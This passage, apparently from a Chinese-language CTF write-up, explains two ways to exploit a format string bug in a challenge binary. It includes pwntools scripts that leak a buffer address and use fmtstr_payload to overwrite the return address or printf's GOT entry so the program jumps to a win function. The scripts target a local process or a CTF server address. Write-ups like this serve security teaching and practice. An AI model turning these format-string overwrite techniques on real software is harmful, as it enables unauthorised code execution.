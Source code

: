 ![image-20200816134500019](../.gitbook/assets/image-20200816134500019.png)

得到buf的地址，就可以直接通过格式化字符串漏洞把返回地址改了，这里使用pwntools内置的函数，只需要传递offset（offset在方法一种找到了，是6）和要改写的地址和内容就可以了。

**exp**

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.arch = 'amd64'
debug = True
if debug:
    conn = process('./a.out')
else:
    conn = remote('220.249.52.133', 39751)

win = 0x4008DA
log.success("win addr is {}\n".format(hex(win)))
offset = 6
log.success("offset is {}\n".format(offset))

conn.sendlineafter('3. Exit the battle \n', '2')
conn.sendline("%1$p")
buf_addr = int(conn.recvuntil('\n'), 16)
conn.sendlineafter('3. Exit the battle \n', '2')
payload = fmtstr_payload(6, {buf_addr+0x98 : win})
conn.sendline(payload)

recv = conn.recvall()
log.success("recv is {}".format(recv))
conn.sendlineafter('Exit the battle \n', '3')
```

## 方法三：

偏移在方法一种找到了，直接利用pwntools改就完事了。我这里改的是`printf`的地址，所以**改完以后需要在调用一次printf**才行。改别的函数也是一样的，可以自行尝试。

**exp**

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.arch = 'amd64'
debug = True
if debug:
    conn = process('./a.out')
else:
    conn = remote('220.249.52.133', 39751)

elf = ELF('./a.out')
win = 0x4008DA
log.success("win addr is {}\n".format(hex(win)))
offset = 6
log.success("offset is {}\n".format(offset))

conn.sendlineafter('3. Exit the battle \n', '2')
log.success("got.printf is {:#x}".format(elf.symbols['got.printf']))
payload = fmtstr_payload(6, {elf.symbols['got.printf']: win})
```
